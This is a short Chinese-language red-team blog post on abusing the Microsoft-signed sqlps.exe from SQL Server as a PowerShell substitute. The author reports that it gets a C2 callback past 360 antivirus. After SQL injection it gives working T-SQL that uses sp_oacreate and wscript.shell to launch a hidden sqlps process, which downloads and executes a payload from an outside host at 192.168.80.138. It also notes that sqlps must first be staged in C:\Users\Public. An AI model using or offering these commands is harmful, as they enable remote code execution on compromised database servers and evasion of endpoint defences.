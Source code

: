 ```yaml
---
title: sqlps替代powershell
tags: Bypass,RedTeam
---
```


## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100806.png)

此文件本身自带微软签名：

![image-20220315190237951](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100808.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100810.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100812.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100815.png)



![image-20220315191725621](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100818.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100820.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100823.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
